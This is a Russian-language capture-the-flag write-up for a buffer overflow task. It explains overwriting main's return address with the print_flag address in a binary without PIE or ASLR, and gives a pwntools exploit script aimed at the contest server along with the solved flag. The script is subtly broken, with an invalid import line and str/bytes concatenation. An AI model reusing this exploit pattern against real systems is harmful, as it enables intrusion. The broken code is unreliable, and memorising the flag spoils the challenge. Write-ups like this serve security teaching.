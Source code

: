 # ОООверфлоу: Write-up

Поэксперементировав с данным исполняемым файлом, нужно было понять, что он незащищён от переполнения, однако просто переполнение кроме Segmentation fault'а
ничего нам не даёт. Тогда, сдизассемблив файл, можно было найти интересную функцию под названием `print_flag`, а также её адрес — `401196`.  
В этом таске был отключён ASLR, а файл компилился с флагом `-no-pie`, поэтому адрес функций не менялся с каждым запуском файла. 
Теперь нам необходимо с помощью переполнения перезаписать адрес возврата функции `main` адресом функции `print_flag`, подобрав необходимый оффсет «мусорных» данных в переполнеии. 
Этого можно было достичь, например, следующим скриптом:
```
import pwn import remote, p64

r = remote('ugractf.ru', 5002)
r.recvuntil(b'name?\n')
r.sendline('a' * 72 + p64(0x401196))
r.sendline('')
print(r.recvall())
```

Флаг: **ugra_pointer_tourist**
